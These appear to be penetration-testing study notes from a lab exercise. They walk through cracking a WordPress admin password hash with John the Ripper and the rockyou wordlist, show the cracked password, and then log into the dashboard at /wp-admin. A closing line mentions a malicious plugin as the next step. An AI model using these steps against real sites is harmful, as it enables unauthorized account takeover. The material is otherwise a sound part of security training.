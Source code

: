 -    we can run a traditional brute force attack where we try every letter combination in the hopes that one matches up, this might take a very long time.

-    Instead we will choose to start by using the**“rockyou” wordlist**, which is included in Kali Linux.

-    /**usr/share/wordlists/rockyou.txt.gz file** **with gunzip**. This will replace the archivefile with a plain text file.

-    let’s create a file containing the password hash

```bash
kali@kali:~$ echo "$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/" > pass.txt
```

### John the Ripper

-    Let’s attempt to crack the password using John the Ripper.

-    We will use the –wordlist option along with the path to our wordlist and provide the filename that contains the password hash.

```bash
kali@kali:~/Desktop/sandbox.local$ john --wordlist=/usr/share/wordlists/rockyou.txt pa  
ss.txt  
...  
!love29jan2006! (?)  
1g 0:00:22:59 DONE 0.000724g/s 10391p/s 10391c/s 10391C/s !lovegod..!lov3h!m  
Use "--show --format=phpass" to display all of the cracked passwords reliably  
Session completed
```

-    Running the command above may take a long time, depending on the CPU of the computer.

-    Based on the output in Listing 872, John indicates that the password is **“!love29jan2006!”**.

-    try to see if we can log in to the web application.

-    By default, the WordPress login page can be found at /wp-admin.

-   Visiting this page prompts us to enter a username and password.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/20.jpg)

-    Once we click Login, we get to the admin dashboard

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/21.jpg)

-    It is possible that you might get a request to verify the admin email

- If this is the case, you can just click “This email is correct” to continue.

-    Now that we are logged in, we can continue our enumeration journey to discover what we should exploit next

# Summary
- Login to word press and enumerate to find credentials
- download malicious wordpress plugin
